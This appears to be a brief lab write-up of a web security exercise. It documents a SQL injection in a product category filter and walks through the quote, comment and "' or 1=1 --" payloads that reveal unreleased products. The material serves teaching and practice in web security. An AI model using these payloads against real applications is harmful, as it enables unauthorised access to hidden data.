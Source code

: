 # SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

### Given:

- vulnerability in product category filter

- query: SELECT * FROM products WHERE category = 'Gifts' AND released = 1

### Task:
- perform SQLi attact to display one or more unreleased products.

### Analysis:
- SELECT * FROM products WHERE category = 'Accessories' AND released = 1

- SELECT * FROM products WHERE category = ''' AND released = 1
    - internal server error(500 response code)

- SELECT * FROM products WHERE category = ''--' AND released = 1 
    - SELECT * FROM products WHERE category = '' => No error(200 response code)

- SELECT * FROM products WHERE category = '' or 1=1 --' AND released = 1
    - SELECT * FROM products WHERE category = '' or 1=1 
    - task completed, unreleased product displayed.